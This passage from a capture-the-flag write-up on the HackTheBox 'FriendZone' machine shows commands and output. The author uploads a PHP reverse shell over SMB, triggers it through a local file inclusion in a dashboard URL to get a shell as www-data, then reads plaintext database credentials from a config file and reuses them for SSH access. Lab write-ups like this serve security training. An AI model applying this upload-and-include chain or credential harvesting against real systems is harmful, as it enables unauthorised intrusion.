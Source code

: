 ```
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> put rev.php 
putting file rev.php as \rev.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> 
```
<br> And finally I tested my idea :
`https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/rev`
![](/images/hackthebox/friendzone/14.png)
<br> It worked and now we have a reverse shell as `www-data` :
![](/images/hackthebox/friendzone/15.png)
<br> We owned user.
<br>
<hr>
## SSH as friend, Privilege Escalation
<br> I looked into `/var/www` and found a file called `mysql_data.conf` which had some credentials :
```
$ ls -la
total 36
drwxr-xr-x  8 root root 4096 Oct  6  2018 .
drwxr-xr-x 12 root root 4096 Oct  6  2018 ..
drwxr-xr-x  3 root root 4096 Jan 16 22:13 admin
drwxr-xr-x  4 root root 4096 Oct  6  2018 friendzone
drwxr-xr-x  2 root root 4096 Oct  6  2018 friendzoneportal
drwxr-xr-x  2 root root 4096 Jan 15 21:08 friendzoneportaladmin
drwxr-xr-x  3 root root 4096 Oct  6  2018 html
-rw-r--r--  1 root root  116 Oct  6  2018 mysql_data.conf
drwxr-xr-x  3 root root 4096 Oct  6  2018 uploads
$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
$
```
<br> I could get `ssh` access as friend with them :
```
root@kali:~/Desktop/HTB/boxes/friendzone# ssh friend@friendzone.htb
```